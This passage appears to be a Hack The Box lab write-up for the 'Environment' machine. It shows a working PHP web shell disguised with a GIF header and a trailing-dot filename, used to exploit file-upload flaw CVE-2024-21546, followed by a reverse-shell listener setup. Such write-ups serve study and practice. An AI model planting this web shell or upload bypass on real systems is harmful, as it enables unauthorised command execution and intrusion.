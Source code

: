 So we thinking that there maybe a file to rce from this function. Searching and found out this [CVE-2024-21546](https://www.wiz.io/vulnerability-database/cve/cve-2024-21546) and also got this one from [ImHades101](https://gist.github.com/ImHades101/338a06816ef97262ba632af9c78b78ca) to see how we can exploit this.

### CVE-2024-21546
First we need to create a `naruto.php.` file.

```bash
└─$ cat naruto.php. 
GIF89a<?php system($_GET['c']); ?>
```

> *Remeber the `.` as it said from the gist. And the `GIF89a` to make the application think that it is a gif file.*

Now upload it.

![Environment Profile Upload](/assets/img/environment-htb-release-area-machine/environment-htb-release-area-machine_profile-upload-2.png)

![Environment Profile Upload](/assets/img/environment-htb-release-area-machine/environment-htb-release-area-machine_profile-upload-3.png)

There we go, we are rce as **www-data** user. <br>
Now we need to reverse shell for more information discovery.

```bash
└─$ penelope -p 3333                                                                                       
[+] Listening for reverse shells on 0.0.0.0:3333 →  127.0.0.1 • 172.xx.xx.xx • 172.xx.xx.xx • 10.10.16.36
- 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```
